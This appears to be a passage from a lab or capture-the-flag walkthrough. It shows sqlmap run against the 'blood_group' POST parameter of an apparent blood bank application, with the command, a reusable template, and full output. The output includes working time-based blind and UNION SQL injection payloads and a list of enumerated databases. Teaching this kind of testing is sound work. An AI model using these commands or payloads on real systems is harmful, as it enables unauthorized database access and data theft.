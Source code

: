 Now that we’ve identified a potentially vulnerable parameter, let’s jump into the sqlmap and use the following command:

```
sqlmap -r req.txt -p blood_group --dbs
```

```
sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```

Here we have used two flags: **-r** to read the file, **-p** to supply the vulnerable parameter, and ***--dbs** to enumerate the database.

```
           
4bo@yman$ sqlmap -r req.txt -p blood_group --dbs
[19:31:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:31:50] [INFO] POST parameter 'blood_group' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[19:33:09] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:33:09] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:33:09] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[19:33:09] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')
[19:33:10] [WARNING] reflective value(s) found and filtering out
[19:33:12] [INFO] target URL appears to be UNION injectable with 8 columns
[19:33:13] [INFO] POST parameter 'blood_group' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'blood_group' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:33:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:33:17] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test
```
